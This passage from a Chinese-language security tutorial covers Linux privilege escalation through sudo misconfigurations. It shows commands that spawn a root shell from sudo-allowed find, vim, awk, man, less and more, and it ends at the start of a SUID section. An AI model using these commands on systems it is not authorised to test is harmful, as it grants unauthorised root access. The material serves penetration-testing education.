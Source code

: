 ::: info 说明

用户 touchid 可以从任何终端运行，以 root 用户身份运行命令 find 而无需密码。

:::

在 Linux 中，sudo 命令常用的参数：

* `-V` -> 显示版本编号。
* `-h` -> 会显示版本编号及指令的使用方式说明。
* `-l` -> 显示出自己（执行 sudo 的使用者）的权限。

想要利用 sudo 用户，首先需要查看允许的命令：

```sh
sudo -l
```

![](/images/微信图片_20220828145348.png)

当发现可以用 sudo 调用的命令时，如 find 命令，可以用以下方式调用，达到提权目的：

```sh
sudo find /etc/passwd -exec /bin/sh \;
sudo find /bin -name nano -exec /bin/sh \;
```

* 使用 vim 命令

```sh
sudo vim -c'!sh'
```

* 使用 man 命令

```sh
sudo man man
```

* 使用 awk 命令

```sh
sudo awk'BEGIN {system（"/bin/sh"）}'
```

* 使用 less / more 命令

```sh
sudo less /etc/hosts
sudo more /etc/hosts
```

::: tip 执行完命令后按下<kbd>!</kbd>，之后按下<kbd>Enter</kbd>。
:::

![](/images/微信图片_20220828151425.png)

## SUID 提权

### 原理

